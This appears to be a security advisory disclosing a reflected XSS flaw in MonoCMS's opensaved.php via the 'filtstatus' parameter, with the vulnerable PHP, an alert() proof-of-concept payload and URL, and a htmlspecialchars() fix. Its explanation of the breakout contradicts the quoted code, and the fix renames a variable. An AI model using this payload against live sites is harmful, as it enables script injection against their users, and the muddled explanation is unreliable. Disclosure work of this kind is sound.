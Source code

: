 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/opensaved.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/opensaved.php

Injection parameter: `filtstatus`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `filtstatus` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
if (isset($_GET['filtstatus']))
    echo '<option value="#">'. $_GET['filtstatus'].'</option>'.PHP_EOL.'<option value="opensaved.php'.$slink.'">All</option>';
```

<br />

## Injection Payload Tested:

We set `filtstatus` to:
```
</option><script>alert('XSS');</script><option>
```

<br />

## URL-encoded, this becomes:
```
%3C%2Foption%3E%3Cscript%3Ealert('XSS');%3C%2Fscript%3E%3Coption%3E
```

<br />

## Resulting HTML After Injection:
```
<option value="#"></option><script>alert('XSS');</script><option></option>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `</option><script>alert('XSS');</script><option>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/opensaved.php` looks like:

<br />

![opensaved.php](https://i.postimg.cc/XNBmMxsN/1.png)

<br />

Then we can add our payload `</option><script>alert('XSS');</script><option>` :
```
http://localhost:8080/monofiles/opensaved.php?filtstatus=</option><script>alert('XSS');</script><option>
```

<br />

![payload](https://i.postimg.cc/7Yvcq7R3/2.png)

<br />

After submitting the url with the vulnerable parameter `filtstatus` and the XSS payload `</option><script>alert('XSS');</script><option>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/g2gNL6gB/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
if (isset($_GET['filtstatus']))
    echo '<option value="#">' . htmlspecialchars($_GET['filtstatus'], ENT_QUOTES, 'UTF-8') . '</option>' . PHP_EOL . '<option value="opensaved.php' . $clink . '">All</option>';
```

<br />

> One Click Can Change Everything: Be Secure.
